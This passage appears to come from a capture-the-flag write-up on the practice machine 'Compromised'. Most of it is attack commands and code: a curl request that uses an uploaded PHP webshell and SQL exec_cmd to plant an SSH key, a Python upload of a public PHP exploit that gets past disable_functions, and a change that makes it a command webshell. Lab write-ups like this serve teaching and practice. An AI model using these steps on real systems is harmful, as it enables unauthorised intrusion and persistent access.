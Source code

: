 ```
root@kali# curl -s -G 'http://10.10.10.207/shop/admin/../vqmod/xml/NIBI1.php' --data-urlencode "db=SELECT exec_cmd('echo \"ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing\" >> /var/lib/mysql/.ssh/authorized_keys');"
root@kali# ssh -i ~/keys/ed25519_gen mysql@10.10.10.207
The authenticity of host '10.10.10.207 (10.10.10.207)' can't be established.
ECDSA key fingerprint is SHA256:eYvjeWOH3lYrex1T0a/7BQsAv9L4YbZem1T0BGWjtVE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.207' (ECDSA) to the list of known hosts.
Last login: Thu Sep  3 11:52:44 2020 from 10.10.14.4
mysql@compromised:~$
```

## 2. Bypass disable_functions

### POC
I wrote about Chankro a while back and how it can bypass disable_functions in PHP. Unfortunately for this case, it relies on putenv in PHP, which is listed as blocked in the phpinfo output. Still, there are other ways to bypass these filters. For example, something like this to get execution. It’s a webshell that goes through a bunch of work-arounds to get execution without using any of the functions that get disabled but rather exploiting a bug in PHP. At the top of the PHP code, it calls pwn("uname -a");.

I’ll update the exploit script to read in and send the shell from the GitHub:

```bash
with open("exploit.php", "r") as f:
    exploit = f.read()

files = {
        'vqmod': (rand + ".php", exploit, "application/xml"),
        'token':one,
        'upload':(None,"Upload")
    }
```

On running it, it prints the output of uname:

```
root@kali# python 45267.py -t http://10.10.10.207/shop/admin/ -u admin -p 'theNextGenSt0r3!~'
Shell => http://10.10.10.207/shop/admin/../vqmod/xml/PMBX7.php?c=id
Linux compromised 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

That’s the output of uname -a.

### Webshell
I’ll replace uname with a payload that runs based on the request:

```
#pwn("uname -a");
pwn($_REQUEST['c']);
```
